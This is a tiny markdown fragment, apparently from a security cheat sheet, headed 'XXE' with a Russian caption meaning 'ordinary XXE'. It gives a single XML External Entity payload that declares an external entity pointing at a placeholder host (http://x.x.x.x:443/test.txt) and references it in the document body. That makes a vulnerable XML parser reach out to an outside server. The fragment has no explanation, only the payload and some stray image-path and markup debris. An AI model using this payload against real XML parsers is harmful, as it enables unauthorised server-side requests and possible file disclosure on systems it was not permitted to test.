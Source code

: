 ## XXE

```Обычный xxe 
><?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM
"http://x.x.x.x:443/test.txt"> ]>
<r>&sp;</r>
<br>
